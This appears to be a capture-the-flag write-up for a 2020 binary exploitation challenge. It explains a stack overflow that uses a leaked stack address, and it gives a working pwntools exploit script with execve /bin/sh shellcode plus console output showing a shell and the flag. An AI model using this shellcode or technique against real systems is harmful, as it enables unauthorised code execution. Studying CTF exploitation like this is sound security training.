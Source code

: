 # speedrun-06

## Task

nc chal.2020.sunshinectf.org 30006

File: chall_06

Tags: binary exploitation

## Solution

This is basically `speedrun-03` but with the `rsp` of `main` leaked, so we need do to some calculation. It's not that hard if you know how the stack looks like.

When a new stack frame is created we save the return address and the old rbp to restore it later. This is 2 * 8 bytes or `0x10`. We are going to overwrite the whole stack until we reach the variable that's loaded into `rdx` for the `call` instruction. We will set that to `leaked_addr - 0x10` and write our shellcode directly after that. We also no longer have an unlimited write since `fgets` with size `0x100` is used instead of `gets`.

The length of our payload is 93, 56 (stack until rbp-0x8) + 8 (return address) + 29 (shellcode). Theoretically there would be enough space for some NOPs but it also works without them.

```python
from pwn import *
#p = process("./chall_06")
p = remote("chal.2020.sunshinectf.org", 30006)

info(p.recvuntil("Letting my armor fall again: "))
addr = p.recv()
info(addr)  
p.sendline()

addr_real = int(addr, 16)

payload  = "A" * 56
payload += p64(addr_real - 0x10)
payload += b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

p.sendline(payload)
p.interactive()
```

And we get our flag:

```bash
$ python2 pwny.py
[+] Opening connection to chal.2020.sunshinectf.org on port 30006: Done
[*] Letting my armor fall again:
[*] 0x7ffe7e6738e0
[*] Switching to interactive mode
For saving me from all they've taken.
$ ls
chall_06
flag.txt
$ cat flag.txt
sun{shepherd-of-fire-1a78a8e600bf4492}
```
